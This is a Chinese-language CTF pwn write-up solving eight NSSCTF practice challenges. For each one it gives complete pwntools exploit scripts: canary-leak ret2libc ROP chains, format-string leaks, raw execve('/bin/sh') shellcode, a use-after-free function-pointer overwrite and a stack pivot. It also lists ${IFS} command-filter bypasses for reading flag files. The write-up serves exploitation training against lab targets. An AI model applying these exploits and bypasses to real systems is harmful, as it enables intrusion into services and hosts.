

第一页
- 没有按照
NSSCTF的题目序号来，还有就是每一页15题
题目1_littleof
-
考点：
ret2libc、Canary绕过 -
先查看一下保护机制，发现开了Canary
- 然后再反编译查看一下程序运行的逻辑。运行逻辑主要就是在下图的函数中。
- 这边还有俩个溢出点，但是由于有Canary，所以第一个溢出点是泄露Canary的值，然后第二个才是真正的进行溢出构造ROP链
- 这边还需要注意一下接收，因为
%s除了格式化输出Canary的值，还输出了rbp栈地址的值

- exp：
from pwn import *
context(log_level = 'debug')
p = remote('node4.anna.nssctf.cn',28938)
#p = process('./littleof')
#gdb.attach(p)
#p.send(b'a')
payload = b'a'*0x49
p.sendafter(b'Do you know how to do buffer overflow?\n',payload)
#p.send(b'a')
canary = p.recv()
canary = b'\x00' + canary[0x49:0x50]
print(canary)
canary = int.from_bytes(canary,'little')
print(hex(canary))
pop_rdi = 0x400863
puts_got = 0x601018
puts_plt = 0x4005B0
ret = 0x40059e
fun = 0x4006E2
payload1 = b'a'*0x48 + p64(canary) + b'a'*0x8 + p64(pop_rdi)
payload1 += p64(puts_got) + p64(puts_plt) + p64(fun)
p.sendline(payload1)
p.recvline()
puts_addr = p.recvline()[:-1]
print('------>',puts_addr)
puts_addr = int.from_bytes(puts_addr,'little')
libc_addr = puts_addr - 0x80aa0
sh_addr = libc_addr + 0x1b3e1a
sys_addr = libc_addr + 0x4f550
p.sendline(b'a')
payload2 = b'a'*0x48 + p64(canary) + b'a'*0x8
payload2 += p64(pop_rdi) + p64(sh_addr) + p64(ret) + p64(sys_addr)
p.sendline(payload2)
p.interactive()
题目2_find_flag
-
考点：
格式化字符串漏洞 -
简单的字符串格式化的题目
- 先查看一下保护机制，发现全部保护都开起来了

- 再查看一下反编译后的程序代码，查看程序运行的逻辑，主要问题出现在这里，思路就是先泄露栈上的Canary值和ret的地址，然后计算程序的地址，然后再进行栈溢出。
-
这里发现了后门函数
-
由于本地和靶机的字符串格式化偏移不一样，直接打远程，不要动态调试。
- exp如下：
- 先通过爆破发现，
%17$p是泄露Canary的值和%19$p泄露程序返回地址的值
from pwn import *
context(log_level='debug')
for i in range(100):
p = remote('node4.anna.nssctf.cn',28422)
payload = b'%' + str(i).encode('utf-8') + b'$p'
p.sendlineafter(b'Hi! What\'s your name?',payload)
p.interactive()
p.close()
- 最后写exp：
from pwn import *
context(log_level='debug')
p = remote('node4.anna.nssctf.cn',28467)
payload = b'%17$p' + b'-----' + b'%19$p'
p.sendlineafter(b'Hi! What\'s your name?',payload)
leak = p.recvline()
print(leak)
canary = leak[19:37]
addr = leak[42:-2]
print('canary---->',canary)
print('addr----->',addr)
canary = int(canary.decode('utf-8'),16)
addr = int(addr.decode('utf-8'),16)
addr = addr - 0x146F
catflag = addr + 0x1231
print('canary:',hex(canary))
payload = b'a'*0x38 + p64(canary) + b'a'*0x8 + p64(catflag)
p.sendline(payload)
p.interactive()
题目3_singout
-
考点：
RCE、Linux命令绕过 -
这题没给附件，主要考虑的就是命令绕过（感觉主要靠的是web），没啥命令绕过的经验
- 直接看wp，wp说可以使用
nl${IFS}f*
nl$IFS$9f*
tail ./*
tail$IFS$9./f*
- 这边理解一下命令的意思：
nl是Linux系统的命令，用于给每个文件编号
${IFS}中，IFS是shell特殊环境变量，代表内部字段分隔符这里表示空格。这边使用${IFS}的作用就是充当空格，因为空格可能也被禁用了
f*表示的是当前目录下所有以f开头的文件
执行该命令的就相当于执行
nl f*
nl命令会逐行读取文件的内容，并为每一行添加行号。
- 这里我在本地实验一下：
- 它会读取文件里面的内容。
- 逐行标上行号之后就会逐行输出。
题目4_shellcode？
- 先查看保护机制发现只有Canary没开，其他都开了
- 查看反编译的代码，这边应该就是简单的写一个shellcode

- 直接开写，虽然python有自动生成工具，但是因为是练习，所以尝试自己多写一点简单shellcode，之后要碰到要自己写的就不会太牢
from pwn import *
context(arch='amd64')
p = remote('node5.anna.nssctf.cn',23069)
a = asm("""
mov rax,59
mov rbx,0x0068732f6e69622f
push rbx
mov rdi,rsp
xor rsi,rsi
xor rdx,rdx
syscall
""")
p.sendline(a)
p.interactive()
题目5_[HUBUCTF 2022 新生赛]fmt
-
考点：
格式化字符串漏洞 -
这题还以为是劫持got表，结果是就是格式化字符串的简单运用
- 直接查看附件，发现格式化字符串直接泄露栈上的值就行。
- 直接爆破flag所在的栈：
from pwn import *
p = remote('node5.anna.nssctf.cn',29340)
for i in range(100):
p.recvline()
p.sendline(b'%'+str(i).encode('utf-8')+b'$p')
a = p.recvline()
print(a)
- 爆破出来后直接脚本一把梭：
a = [0x657b46544353534e,0x2d35633332386366,0x3837342d33653834,0x392d303432612d66,0x3331326130306634,0xa7d393636]
for i in range(len(a)):
print(libnum.n2s(a[i]))
b = ['e{FTCSSN','-5c328cf','874-3e84','9-042a-f','312a00f4','\n}966']
for i in range(len(b)):
print(b[i][-1::-1],end='')
题目6_[NISACTF 2022]UAF
-
考点：
UAF、fastbin_UAF -
今天来打一题堆题，题目已经表明了是
UAF漏洞，所以直接来分析程序。先来check一下程序。发现是32位的程序，没有开PIE随机地址偏移。
- 然后使用IDA分析该程序，发现是一个经典的堆菜单题目，然后使用
scanf函数输入我们要选择的菜单选项。
- 接下来先查看
create()函数，在这边有两个在.bss段上的全局变量i和page - 该程序先输入我们申请
page的索引，然后对这个索引进行检查，当i在0到9之间就会先创建一个堆块，并将堆块的地址存储在page这个指针数组这边 - 然后对
i进行检查如果i大于9就没有PAGE分配给新申请的堆块，如果还有空间i就会自增1 - 当
i=0的时候会先初始化page即在该堆块里面前4字节存储着一串数字，后4字节存储着函数指针，用于输出功能。
- 通过查看
.bss段我们可以确定i是一个int类型的变量占4字节，而page很明显是一个指针数组，该数组定义了10个指针变量
- 接下来我们再来查看，
edit()这部分函数执行什么 - 首先是输入我们要修改的堆块索引
- 然后使用
scanf向该堆块输入内容，但是这里好像存在溢出
- 之后再来查看
del()这个函数的功能，该函数的功能就是free我们指定的堆块，但是这边存在一个UAF的漏洞，所以我们可能可以利用这个漏洞。
- 之后再来查看
show这个函数的功能，是输出我们所选择的堆块，但是这里要注意一下，就是当我们要输入page[0]的时候，程序会调用这个函数指针，即该函数指针存放在page[1]这个位置，然后去输出page[0]的内容。
- 我们还发现了一个后门函数
- 所以思路如下：
- 通过
UAF漏洞修改函数指针为后门函数，然后再修改向page[0][0]中写入/bin/sh\x00或者/sh\x00\x00 -
这样我们就劫持了程序的控制流到后门函数，就可以成功执行
system("/bin/sh") -
接下来使用动态调试查看堆块的具体运行情况
- 首选我们发现第一次是堆块的初始化
-
所以我要利用
UAF漏洞，将该对page[0]这里面的内容进行修改从而执行程序控制流，接下来进行堆的布局。首先我们要先初始化一个page，为了防止堆块的合并，我们还要再申请一个堆块。之后先释放page[0]所指向的堆块，再创建一个新的堆块就可以把page[0]的堆块给申请到page[2]这边，这样我们就可以调用edit函数对这个堆块进行修改了。 -
exp如下：
from pwn import *
context(log_level='debug')
p = remote('node4.anna.nssctf.cn',28471)
def create():
p.sendlineafter(b':',b'1')
def edit(page,string):
p.sendlineafter(b':',b'2')
p.sendlineafter(b'Input page\n',str(page).encode('utf-8'))
p.sendlineafter(b'Input your strings\n',string)
def delete(page):
p.sendlineafter(b':',b'3')
p.sendlineafter(b'Input page\n',str(page).encode('utf-8'))
def show(page):
p.sendlineafter(b':',b'4')
p.sendlineafter(b'Input page\n',str(page).encode('utf-8'))
pause()
create()
create()
delete(0)
create()
payload = b'\sh\x00' + p32(0x8048642)
edit(2,payload)
show(0)
p.interactive()
题目7_[HNCTF 2022 Week1]ezcmp
-
考点：
gdb动态调试 -
该题比较简单，不仅给了附件，还给了源码。这边直接查看一下源码
#include<stdio.h>
char buff[100];
int v0;
char buffff[]="ABCDEFGHIJKLMNOPQRSTUVWXYZ1234";
char bua[]="abcdefghijklmnopqrstuvwxyz4321";
char* enccrypt(char *buf){
int a;
for(int i=0;i<29;i++){
a=rand();
buf[i]^=buffff[i];
buff[i]^=bua[i];
for(int j=29;j>=0;j--){
buf[j]=buff[i];
buf[i]+='2';
}
buf[i]-=((bua[i]^0x30)*(buffff[i]>>2)&1)&0xff;
buf[i]+=(a%buff[i])&0xff;
}
}
int main(){
setbuf(stdin,0);
setbuf(stderr,0);
setbuf(stdout,0);
puts("GDB-pwndbg maybe useful");
char buf[]="Ayaka_nbbbbbbbbbbbbbbbbb_pluss";
strcpy(buff,buf);
char test[30];
int v0=1;
srand(v0);
enccrypt(buff);
read(0,test,30);
if(!strncmp(buff,test,30)){
system("/bin/sh");
}
else {
puts("Oh No!You lose!!!");
exit(0);
}
return;
}
- 该题程序就是将
Ayaka_nbbbbbbbbbbbbbbbbb_pluss这个字符串进行加密，让我们输入数据，然后与加密过后的数据进行比较，如果与加密后的结果一致，那么就可以getshell，这里先使用IDA逆向一下该二进制程序，找到main函数中call read的地址。以及找到全局变量buff的地址。

- 然后使用
gdb动态调试，在call read这个位置去设置断点，设置完断点后使用c命令
- 这时我们再查看全局变量
buff里面的值，这样我们就可以看到加密后的数据了
- 这样我们就可以编写exp：
from pwn import *
p = remote('node5.anna.nssctf.cn',27273)
payload = p64(0x144678aadc0e4072) + p64(0x84b6e81a4c7eb0e2)
payload+= p64(0xf426588abcee2052) + p64(0xc8cb2c5e90c2)
p.send(payload)
p.interactive()
题目8_[HDCTF 2023]KEEP ON
-
考点：
栈迁移 -
拿到附件先查看一下保护机制，发现保护机制没有开Canary和PIE
- 然后使用
IDA反编译查看代码，先来查看main函数，发现main函数只有一个输出，和初始化，比较重要的在vuln这个函数中
- 接下来直接查看
vuln这个函数 - 发现有两个
read()函数，其中第二个read函数存在溢出，可以溢出0x10个字节。 - 然后
printf(s)这边还存在字符串格式化漏洞
- 由于可以溢出的空间太小了，所以查看汇编代码，看看是否有
leave和ret这个汇编语句。发现有leave和ret这个汇编语句，这样我们就可以进行栈迁移操作。
-
思路就是：先利用字符串格式化漏洞泄露栈地址，并计算偏移，这样在第二次输入时，在没溢出之前就可以构造rop链，使用栈迁移，将
rsp指针回到保存s的变量中，这样我们就可以成功构造rop链。 -
exp如下：
from pwn import *
context(log_level='debug')
#p = remote('node4.anna.nssctf.cn',28694)
p = process('./hdctf')
#gdb.attach(p)
#pause()
payload = b'%16$p'
p.sendlineafter(b'name: \n',payload)
stack = p.recvline()[6:-1]
stack = int(stack,16)
print('stack---->',hex(stack))
stack = stack - 0x60
leave = 0x4007F2
pop_rdi =0x4008d3
sys_addr = 0x40085D
ret = 0x400864
payload1 = p64(stack)+p64(pop_rdi)+p64(stack+0x20)+p64(sys_addr)
payload1 += b'/bin/sh\x00'+b'a'*0x28
payload1 += p64(stack)+p64(leave)
p.sendlineafter(b'keep on !\n',payload1)
p.interactive()